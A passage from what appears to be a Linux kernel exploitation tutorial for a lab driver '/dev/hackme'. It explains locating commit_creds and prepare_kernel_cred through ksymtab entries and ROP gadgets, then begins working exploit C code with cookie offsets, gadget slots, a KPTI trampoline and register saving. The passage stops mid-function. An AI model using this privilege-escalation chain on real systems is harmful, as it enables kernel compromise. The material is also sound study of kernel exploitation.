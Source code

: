 What remains is to compute the location of
`prepare_kernel_cred` from `__ksymtab_prepare_kernel_cred`
and the location of `commit_creds` from
`__kstrtab_commit_creds`.

Remember that the kernel symbols structs are defined as follows:

{% highlight C %}
struct kernel_symbol {
	  int value_offset;
	  int name_offset;
	  int namespace_offset;
};
{% endhighlight %}

Hence, we can now use a ROP gadget to store `ksymtabs_commit_creds - 0x10`
in rax, read the `value_offset`, and hence obtain the memory location
of `commit_creds` by adding the `value_offset` to the location of
`ksymtabs_commit_creds`.

The full code to compute the memory location of `commit_creds` is as follows.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <signal.h>


char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;
uint64_t cookie_off = 16;

uint64_t kernel_base;
uint64_t ksymtab_prepare_kernel_cred;
uint64_t ksymtab_commit_creds;

uint64_t pop_rax_ret; // pop rax; ret
uint64_t read_mem_pop1_ret; // mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
uint64_t swapgs_restore_regs_and_return_to_usermode; // The KPTI trampoline

uint64_t tmp;

uint64_t user_cs, user_ss, user_rflags, user_sp;     // for storing the registers


void open_dev(){
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"